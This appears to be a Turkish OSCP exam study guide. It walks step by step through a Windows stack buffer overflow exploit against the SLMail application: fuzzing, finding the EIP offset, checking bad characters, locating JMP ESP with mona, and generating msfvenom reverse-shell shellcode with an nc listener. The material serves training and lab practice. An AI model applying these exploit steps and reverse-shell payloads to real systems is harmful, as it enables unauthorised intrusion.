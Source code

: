 # BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create 
```
ile dosya lokasyonu alınır ve aşağıdaki komut çalıştırılır. Not: 2700 koda göre değişecek.
```
/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<konyalananPattern>'
```
ya da
```
buffer = cmd + '<konyalananPattern>' + end
```

- Exploit kodu çalıştırılır ve **EIP'deki** deger alınır

Kali:
```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. **EIP BBBB olmadıysa işlem tekrar yapılır.**

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump

![Follow Dump ESP](pictures/pic1.png)

Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.

![Shell code Boşluk](pictures/pic2.png)

## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.

![Bad Characters](pictures/pic3.png)

- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.

![Mona modules](picture/pic4.png)

```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.

![executable module list](pictures/pic5.png)

** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.

![Find Jmp Esp](pictures/pic6.png)

JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.
